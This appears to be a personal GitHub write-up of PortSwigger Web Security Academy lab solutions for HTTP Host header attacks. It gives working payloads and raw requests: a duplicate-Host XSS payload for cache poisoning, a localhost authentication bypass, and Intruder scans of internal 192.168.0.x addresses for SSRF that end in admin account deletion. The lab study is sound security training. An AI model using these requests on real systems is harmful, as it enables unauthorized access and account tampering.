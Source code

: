 <span style="color:yellow;font-weight:700;font-size:30px">
HTTP Host header attacks
</span>
https://portswigger.net/web-security/host-header

# How to identify and exploit HTTP Host header vulnerabilities
https://portswigger.net/web-security/host-header/exploiting

How to identify and exploit HTTP Host header vulnerabilities:
1. Check for flawed validation
2. Inject duplicate Host headers
3. Supply an absolute URL
4. Add line wrapping ( by indentation)
5. Inject host override headers (X-Forwarded-Host / X-Host / X-Forwarded-Server / X-HTTP-Host-Override / Forwarded)


# ***1. Lab: Web cache poisoning via the Host header***
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests
 To solve the lab, poison the cache so the home page executes alert(document.cookie) in the victim's browser. 

 xss shit

 1. change original HH - observe 500 failed
 2. add another HH and change value to test - observe reflection in response
 3. experiment with different values until payload:

```
    Host: 0a18008d04cfbdb1c061c9350092009a.web-security-academy.net
    Host: blah"onerror=alert(document.cookie)//
```
note:


request field:
```
Cache-Control: max-age=0
```

response fields:
```
Cache-Control: max-age=30
Age: 28
X-Cache: hit
```

material:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control

**XSSed the Cache**


# ***2. Lab: Host header authentication bypass***
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass

To solve the lab, access the admin panel and delete Carlos's account. 

1. request admin panel - observe 401 unauthorised:
```
    GET / HTTP/1.1
    Host: 0ab2006f037c2dbbc013efc9004f0026.web-security-academy.net
```

response:
```
    HTTP/1.1 401 Unauthorized

```
2. change Host - experiment different values:
```
    127.0.0.1 - fails

```
payload:
```
    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
```

#

# ***3. Lab: Routing-based SSRF***
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf

<!-- note: 
require collaborator? just for first stage of finding out if header is vulnerable so we can skip testing via collaborator (sorry for it - will be comleted with burp pro later) -->


1. send **GET /admin /HTTP1.1** to **intruder**, Change Host field to **192.168.0.x**, mark **x** with payload marker (§x§):

```
GET /admin HTTP/1.1
Host: 192.168.0.§0§
```

2. use intruder payload "number" and set:
```
from: 0
to: 255
step: 1
```

3. find the only response that is not **504** and send to repeater

4. send and observe we get admin panel in response with delete user interface

5. **request in browser** and send delete request: observe it fail. 

6. research in proxy. find out **host** changed back to original.

7. change to local adress and try again

# portswigger solution:

    in admin panel research delete form:
    observe method: **POST**
    observe path: **admin/delete** 
    observe required fields: **csrf - sVn2OQMP3K1id3suCsKbb2WgwH1iA8KU**
    username - 

resend message to repeater and change to craft a valid delete request:

    POST /admin/delete HTTP/1.1
    Host: 192.168.0.49
    ..

    csrf=sVn2OQMP3K1id3suCsKbb2WgwH1iA8KU&username=carlos

**DELETED**


# **4. Lab: SSRF via flawed request parsing**
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing

 To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete Carlos. 

<!-- collaborator stuf not realy necessery to solve (TBC) -->

change **GET / HTTP/1.1** to absolite URL:
**GET https://0af1000704da6058c07b1d8d00c200e4.web-security-academy.net/ HTTP/1.1** observe it allows arbitary headers. 

in intruder add **/admin** to the absolute URL and replace host header with 192.168.0.§0§ - to find the IP of the admin 
request:
    GET https://0af1000704da6058c07b1d8d00c200e4.web-security-academy.net/admin HTTP/1.1
    Host: 192.168.0.183

response:
    HTTP/1.1 302 Found
    Location: /admin

send to repeater, send again and follow redirection to the admin panel. find the CSRF value and copy it. change the request method to **POST** and enter the **csrf value** & **username value**. add the **/delete** and send:

request:
    POST https://0af1000704da6058c07b1d8d00c200e4.web-security-academy.net/admin/delete?username=carlos HTTP/1.1
    Host: 192.168.0.183

    csrf=67LxKpu1jyf0B0r8fD6r1VKjkFokO6of&username=carlos

see lab solved banner

# Done!













